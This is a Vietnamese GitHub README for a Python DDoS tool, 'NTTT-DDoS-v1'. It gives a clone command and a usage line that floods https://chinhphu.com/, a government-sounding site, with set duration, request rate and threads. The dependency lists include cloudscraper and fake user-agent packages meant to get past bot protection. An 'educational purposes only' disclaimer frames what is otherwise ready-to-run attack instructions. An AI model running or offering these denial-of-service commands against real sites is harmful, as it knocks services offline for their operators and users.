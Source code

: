 
<br/><br/>
 Không tấn công bất kỳ trang web nào mà bạn không sở hữu
 Điều này được tạo ra cho mục đích giáo dục<br/>
 Tất cả trách nhiệm của các bạn khi dùng tool này , chúng tôi không chịu trách nhiệm !<br><br/>

# Language
 <img src="https://img.shields.io/badge/Python-FFDD00?style=for-the-badge&logo=python&logoColor=blue"/></br>
</div>

git clone https://github.com/KAR13MA09/NTTT-DDoS-v1
#
python ddos.py https://chinhphu.com/ 30 60 5
- Trong Đó 30 Là Thời Gian DDoS | 60 Là Requests/s | 5 Là Thread
##
PYTHON:
pip install argparse
pip install subprocess
pip install time
pip install requests
pip install colorama
pip install random
pip install datetime
pip install threading
##
NODE JS:
npm install user-agents
npm install fake-useragent
npm install header-generator
npm install randomstring
npm install cloudscraper
npm install cluster
